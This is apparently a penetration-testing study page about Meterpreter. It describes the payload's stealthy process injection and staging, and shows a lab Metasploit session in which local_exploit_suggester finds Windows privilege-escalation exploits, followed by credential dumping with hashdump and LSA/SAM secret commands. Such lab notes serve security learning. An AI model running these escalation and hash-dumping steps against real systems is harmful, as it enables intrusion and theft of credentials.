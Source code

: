 # Meterpreter

Simply, it is a multi-faceted extensible payload. As powerful as it is, meterpreter runs on the victim's memory in order to facilitate our task on exploiting  and accessing the target, from getting us a shell, transfer files, to doing screenshots and opening the camera of our victim. It supports staged and stageless payloads which makes it suitable for whatever we want to achieve.

Not only it gives as a shell on the victim's machine but it provides much more functionalities with great stealthiness since <mark style="color:purple;">**it doesn't create another other processes because it injects itself in a compromised process**</mark> and can migrate from one process to another + the AES encryption of the communications which assures integrity of the data in question.

For a more important read check [this](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/) and [this](https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion/).

## Attack structure

* The target executes the initial stager. This is usually a bind, reverse, <mark style="color:red;">findtag</mark>, <mark style="color:red;">passivex</mark>, etc.
* The stager loads the DLL prefixed with Reflective. The Reflective stub handles the loading/injection of the DLL.
* The Meterpreter core initializes, establishes an AES-encrypted link over the socket, and sends a GET. Metasploit receives this GET and configures the client.
* Lastly, Meterpreter loads extensions. It will always load <mark style="color:red;">**stdapi**</mark> and load <mark style="color:red;">**priv**</mark> if the module gives administrative rights. All of these extensions are loaded over AES encryption.

## Facts and considerations

From a real life perspective, meterpreter and metasploit in general will leave traces behind, like a file or a stager that can't erase, or something of that sort. That makes it a liability and something that would ruin a pentest. Sys admins will notice that and we will definitely get caught.

## Important enumeration module post/multi/recon/local\_exploit\_suggester

```bash
msf6 exploit(...) > search local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > exploit/windows/local/ms15_051_client_copy_images
msf6 post(multi/recon/local_exploit_suggester) > set whatever necessary
msf6 post(multi/recon/local_exploit_suggester) > run
meterpreter > hashdump
meterpreter > lsa_dump_sam
meterpreter > lsa_dump_secrets

```

{% hint style="info" %}
<mark style="color:blue;">**The Local Security Authority (LSA)**</mark> in Windows manages authentication and security policies. Adversaries exploit LSA by modifying registry paths to include malicious binaries, which are executed with SYSTEM privileges during authentication package loading.

<mark style="color:blue;">**SAM**</mark> in Windows stores locally cached credentials (referred to as SAM secrets).
{% endhint %}

## Exploit

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking up on the website with default creds we get a version number:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Shell

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Hash Dumping

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* 1st field: username&#x20;
* 2nd field: Relative Identification (RID)
* 3rd field: LM hash&#x20;
* 4th field: NTLM hash

{% hint style="info" %}
If <mark style="color:red;">local\_exploit\_suggester</mark> fails, we can think of <mark style="color:red;">kitrap0d</mark> found in&#x20;

{% code overflow="wrap" %}
```bash
exploit/windows/local/ms10_015_kitrap0d
```
{% endcode %}
{% endhint %}

